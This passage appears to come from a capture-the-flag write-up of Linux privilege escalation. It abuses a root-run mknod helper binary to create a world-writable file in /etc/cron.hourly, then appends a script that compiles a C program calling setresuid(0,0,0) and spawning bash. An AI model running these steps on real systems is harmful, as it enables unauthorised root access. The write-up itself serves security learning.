 looks good here

so the usage for this is not really helpful so i'll try and see what i can put with `path1` and `path2`

```bash
eric@BM:~$ /usr/local/share/sgml/donpcgd /dev/null ~/testing
#### mknod(/home/eric/testing,21b6,103)
eric@BM:~$ ls -la testing
crw-rw-rw- 1 root root 1, 3 Sep 23 03:26 testing
```

```bash
eric@BM:~$ /usr/local/share/sgml/donpcgd /etc/passwd /opt/test
#### mknod(/opt/test,81a4,0)
eric@BM:~$ ls -la /opt/test
-rw-r--r-- 1 root root 0 Sep 23 03:34 /opt/test
```

ohh this looks good

lets try to manipulate this, i've created the following binary

```c
eric@BM:~$ echo -e 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/bash");\n} '' >> /tmp/test.c
eric@BM:~$ cat /tmp/test.c
int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
```

i now need `root` to compile it

i make the following compile script

```bash
eric@BM:~$ echo -e '#!/bin/bash\ngcc /tmp/test.c -o /tmp/root\nchmod +x /tmp/root' >> /tmp/test.sh
eric@BM:~$ cat /tmp/test.sh
#!/bin/bash
gcc /tmp/test.c -o /tmp/root
chmod +x /tmp/root
```

trying the payload

```bash
eric@BM:~$ /usr/local/share/sgml/donpcgd /tmp/test.sh /etc/cron.hourly/test
#### mknod(/etc/cron.hourly/test,81b4,0)
eric@BM:~$ cat /etc/cron.hourly/test
```
hmm so the contents of the script was not copied, not to worry as `eric` can write to the new file now

```bash
eric@BM:~$  echo -e '#!/bin/bash\ngcc /tmp/test.c -o /tmp/root\nchmod +x /tmp/root' >> /etc/cron.hourly/test
eric@BM:~$ cat /etc/cron.hourly/test
#!/bin/bash
gcc /tmp/test.c -o /tmp/root
chmod +x /tmp/root
```
